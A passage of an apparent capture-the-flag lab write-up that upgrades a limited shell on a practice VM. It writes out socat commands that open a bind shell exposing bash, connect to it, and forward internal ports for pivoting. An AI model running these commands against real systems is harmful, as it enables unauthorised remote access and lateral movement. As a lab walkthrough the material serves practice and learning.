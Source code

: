 Upgrading low level shell:

First try, PentestMonkey Reverse Shells (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - negative across the board


# socat - reverse connection

We need a bind shell and we just so happen to have `socat`. 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553560475937_image.png)


For reference `socat` allows for tunneling, pivoting and we’ll call network mischief. 

setting up our connection on our victims box:

    socat TCP-LISTEN:9000,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane

connecting to socat locally:

    socat FILE:`tty`,raw,echo=0 TCP:192.168.56.118:9000

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553560766871_image.png)


we have a successful connection.

check network connections:

    netstat -lunt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553560982988_image.png)


few more ports open here that we didn’t find initially.

Lets use `socat` to port forward the VM’s port 80 over port 4480
target:

    socat tcp-listen:4480,fork tcp:127.0.0.1:80 &

Local Kali navigate to port 4480

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553561592024_image.png)


`socat` made the hole for use to pass through.

Make another socat port forward hole with port 65334

    socat tcp-listen:4488,fork tcp:127.0.0.1:65334 &

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553561696492_image.png)


second port forward worked as well.


# Enter the FUZZ

